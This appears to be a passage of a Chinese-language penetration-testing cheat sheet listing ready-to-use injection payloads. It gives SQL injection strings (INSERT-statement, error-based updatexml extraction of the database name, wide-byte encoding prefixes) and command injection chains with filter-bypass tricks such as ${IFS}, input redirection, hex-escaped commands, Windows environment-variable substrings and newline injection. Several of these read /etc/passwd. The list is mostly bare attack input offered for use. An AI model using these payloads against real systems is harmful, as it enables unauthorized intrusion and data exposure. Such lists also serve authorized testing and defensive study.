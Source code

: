 - INSERT语句注入

```SQL
xxx',database(),'aaa')-- %23
```

- 报错注入

```SQL
updatexml(1,concat(0x7e,(select database()),0x7e),1)
```

- 宽字节注入

```
%d5
%df
%bf
%a1
```


## 命令注入

- 命令链

```
127.0.0.1; whoami
127.0.0.1 && whoami
xxx || whoami
127.0.0.1 & whoami
127.0.0.1 | whoami
```

- 绕过空格过滤（IFS、输入重定向、Hex编码、空白符替换、Windows环境变量字串）

```
cat${IFS}/etc/passwd
ls${IFS}-la

cat</etc/passwd

X=$'uname\x20-a'&&$X

;ls%09-la%09/home

echo 333%ProgramFiles:~10,-5%4444
ping%CommonProgramFiles:~10,-18%127.0.0.1
ping%PROGRAMFILES:~10,-5%127.0.0.1
```

- 换行

```
127.0.0.1%0Awhoami

127.0.0.1%5C%0Awhoami
```
